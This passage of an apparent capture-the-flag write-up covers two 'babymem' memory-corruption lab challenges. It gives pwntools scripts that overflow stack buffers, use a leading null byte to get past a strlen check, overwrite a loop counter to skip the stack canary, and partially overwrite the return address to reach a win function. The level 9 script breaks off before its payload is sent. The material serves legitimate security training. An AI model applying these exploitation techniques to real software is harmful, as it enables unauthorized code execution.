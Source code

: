 ```python

p.interactive()
```

## Challenge 8

This challenge adds an extra copy from the heap, as well as validation using `strlen` (can be found via `ltrace` on the binary). \
We can pass this check by setting a null byte initially within our buffer. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level8.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']

p = process(BINARY)

buf = b'\x00' + b'A' * 103 + struct.pack('<H', 0xbfd9)
p.sendline(str(len(buf)))
p.send(buf)

p.interactive()
```

## Challenge 9

Now the binary is PIE, there’s a canary and we read 1 byte at a time, something like:

```c
while (n < size) {
      n += read(0, input + n, 1); 
}
```

The local variable `n` is located 100 bytes past the input buffer, while the goal return address is located 120 bytes after it. \
Therefore, by overwriting `n` we would be able to read content into an address we control - and potentially skipping over the canary! Because `n` is incremented by 1 right after the read operation, we would set it to the value of 119 (so that by the end of the loop, it would contain the value of 120). \
Because we would only like to overwrite 2 bytes of the return address, we’d set `size = 122`. 

Moreover, because the binary is PIE and theres a check within the goal method, we’d jump right past the check. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level9.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']


p = process(BINARY)

padding = b'\x00' + b'A' * 99
new_n_value = b'\x77'  # offset 120 - 1
buf = padding + new_n_value + struct.pack('<H', 0xb611)
```